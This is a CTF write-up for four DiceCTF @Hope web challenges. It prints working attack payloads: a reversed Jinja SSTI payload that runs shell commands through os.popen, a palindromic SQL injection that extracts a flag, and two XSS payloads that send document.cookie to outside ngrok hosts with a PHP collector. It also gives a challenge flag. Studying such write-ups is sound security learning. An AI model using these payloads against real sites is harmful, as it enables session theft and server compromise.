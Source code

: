# DiceCTF @Hope writeup

Mostly solved the web challenges with Task_Hashed

---------------------------------------------------------------------------------------------------

## Reverser

the website is a text reverser and from the source code we can tell its an SSTI so we just have to put a regular SSTI payload but just reversed

regular payload: 
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{config.__class__.__init__.__globals__['os'].popen('cat flag-ccba9605-afeb-49a6-8aac-d56bac20705b.txt').read()}}
```
supplied reversed payload:

```
}}  )(daer.)'sl'(nepop.]'so'[__slabolg__.__tini__.__ssalc__.gifnoc {{
    
}})(daer.)'txt.b50702cab65d-caa8-6a94-befa-5069abcc-galf tac'(nepop.]'so'[__slabolg__.__tini__.__ssalc__.gifnoc{{
```


---------------------------------------------------------------------------------------------------

## Pastebin 

the important part of this challenge is :

```python 
    if (paste.search(/<.*>/) !== -1) {
        return res.redirect('/flash?message=Illegal characters in paste!');
        }
```

My solution : 

```html
<img src=x onerror=javascript:document.location='http://37b0-41-225-85-6.ngrok.io/ok.php?c='+document.cookie;
```

PS : the reason this works is because the browser will automatically try to fill in with the > tag 

with ok.php :
```php
<?php 
    $cookies = $_GET["c"];
?>
``` 
---------------------------------------------------------------------------------------------------

## oeps

this challenge requires to put a palindrome string to add them to the pending table

notice there's two ways we can control user input. either search for approved sentences or pass our own but it has to be a palindrome

since the search is blocking special chars we can try with the pending sentences input

so we can try some sql injections

this is what the query looked like 

```python 
connection.execute('''
        insert into pending (user, sentence) values ('%s', '%s');
    ''' % (
        token,
        submission
))
```


payload: ```')--```
payload supplied : ```')---)'```

and we can see we get a blank input meaning our payload worked! and we know the flag is in the flags table so we can use the ```||(query)||``` to get an element from another table

payload : ```%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'% ``` 

the final query looks like this 

```sql
insert into pending (user, sentence) values ('1234', '%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'%');
```

```
flag : hope{ecid_gnivlovni_semordnilap_fo_kniht_ton_dluoc}
```

------------------------------------------------------------------------------------------------------------------------------------

## mk

Abusing MathJax renderer for an xss by supplying the source to the mathjax file

PS: the reason this works is because the mathjax renderer parses the script provided and executes it, otherwise if u change the src to something else that doesnt render it , it wouldn't work ( try it locally ) 

payload :

```javascript
<script src="https://mk.mc.ax/MathJax/MathJax.js">document.location='http://02f6-41-225-148-43.ngrok.io/ok.php?c='+document.cookie;</script>
```


with ok.php :
```php
<?php 
    $cookies = $_GET["c"];
?>
``` 
